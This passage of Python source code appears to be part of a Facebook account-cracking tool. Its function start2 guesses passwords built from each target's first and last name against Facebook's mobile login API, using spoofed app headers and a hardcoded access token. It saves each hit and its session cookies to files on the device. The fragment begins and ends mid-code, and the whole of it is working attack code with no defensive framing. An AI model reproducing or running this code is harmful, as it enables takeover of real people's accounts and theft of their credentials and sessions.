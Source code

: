                 break             
            else:
                continue
        loop += 1
     except Exception as e:time.sleep(10)




    def start2(user):
      global loop,accounts
      try:
        r = requests.Session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
            last = first
        pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r\033[1;91m[\033[1;97mM2\033[1;91m]\033[1;97m {}-{} \033[1;91m[\033[1;97m{}\033[1;91m] \033[1;97mOK : \033[1;92m{} \033[1;97mCP : \033[1;91m{}      \r'.format(str(loop), str(len(accounts)), pers , str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:
            heads = "Mozilla/5.0 (Linux; Android 12; SM-M136B Build/SP1A.210812.016; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/108.0.5359.128 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/396.1.0.28.104;]"
            header = {"Content-Type": "application/x-www-form-accencoded","Host": "graph.facebook.com","User-Agent": heads,"X-FB-Net-HNI": "45204","X-FB-SIM-HNI": "45201","X-FB-Connection-Type": "unknown","X-Tigon-Is-Retry": "False","x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","X-FB-Friendly-Name": "ViewerReactionsMutation","X-FB-Request-Analytics-Tags": "graphservice","Accept-Encoding": "gzip, deflate","X-FB-HTTP-Engine": "Liger","X-FB-Client-IP": "True","X-FB-Server-Cluster": "True","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","Connection": "Keep-Alive"}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_US","client_country_code": "US","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=False)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;92mRA-OK\033[1;92m] \033[1;92m'+acc+' \033[1;92m•\033[1;92m '+pword+'  ')
                open('/sdcard/RA-OK.txt','a').write(f'{acc} • {pword}\n')
                if 'y' in apps:
                    check(r,coki)
                if c=='y':
                 try:  
                  q = json.loads(response.text)
                  ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                  ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                  cookies = f"sb={ssbb};{ckkk}"
                 except Exception as e:print(str(e)+' | '+response.text)
                 print('\r\033[1;93m[\033[1;97mCookie\033[1;93m] \033[1;97m'+cookies)
                 open('/sdcard/M.COOKIES-OK.txt','a').write(f'{acc} • {pword}\n{cookies}')     
                 break